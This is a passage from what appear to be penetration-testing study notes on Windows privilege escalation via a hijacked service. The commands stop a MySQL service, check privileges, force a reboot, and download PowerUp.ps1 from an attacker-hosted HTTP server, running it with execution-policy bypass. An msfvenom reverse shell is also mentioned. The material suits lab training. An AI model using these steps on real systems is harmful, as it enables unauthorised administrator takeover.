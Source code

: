 ```bash
net stop mysqld
```

If the service Startup Type is set to "Automatic", we may be able to restart the service by rebooting the machine.

Here's how you check:

```bash
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
```

In order to issue a reboot, our user needs to have the privilege SeShutDownPrivilege assigned. We can use whoami with /priv to get a list of all privileges.

```bash
whoami /priv
```

If you have the SeShutDownPrivilege, then restart the computer. 

```bash
shutdown /r /t 0
# as alternative
shutdown -r -t 1
```

Once you're back, confirm that everything went as planned.

```bash
Get-LocalGroupMember administrators
```

We can now use *RunAs* to obtain an interactive shell. In addition, we could also use msfvenom to create an executable file, starting a reverse shell.

If you run into trouble after priv escing, try running a powershell and cmd prompt as an administrator from the get. 

#### PowerUp.ps1 (Automated Alternative)

```bash
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
python3 -m http.server 80
```

```bash
# Upload the file
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1

# This function displays services the current user can modify, such as the service binary or configuration files.
Get-ModifiableServiceFile
Invoke-AllChecks
```
